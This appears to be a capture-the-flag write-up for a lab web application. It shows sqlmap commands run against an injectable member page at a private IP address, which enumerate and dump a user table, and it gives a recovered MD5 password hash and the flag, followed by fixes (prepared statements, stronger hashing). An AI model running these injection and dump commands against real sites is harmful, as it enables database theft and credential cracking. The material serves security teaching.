 # Brute_Force
Brute Force for who, brute force for what, we don't need brute force. What we do need on the other hand is use sqlmap and get usernames and passwords.

## Example
This parts highlights a really nice sqlmap feature. Throught same means we can be able to retrieve a table in the database that has all the usernames and their passwords. Sqlmap decrypts the passwords for us(Brute Force).

## Commands
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a>
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a> --dbs
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a> --tables -D Member_Brute_Force
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a> --columns -D Member_Brute_Force -T db_default
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a> --dump -D Member_Brute_Force -T db_default

> options [Y, Y, D, N];

### usernames with cracked passwords
*root : 3bf1114a986ba87ed28fc1b5884fc2f8 (shadow)
*admin: 3bf1114a986ba87ed28fc1b5884fc2f8 (shadow)

If we login using these in http://192.168.43.251/index.php?page=signin we get our flag: b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2

## Remedy
* Again preapred statements would have prevented us form getting this sort of information
* However a much stronger ecryptiion model other than md5 five which is really unsafe, would have made it harder to decryt these passwords :\.

## Resources
* https://www.youtube.com/watch?v=ciNHn38EyRc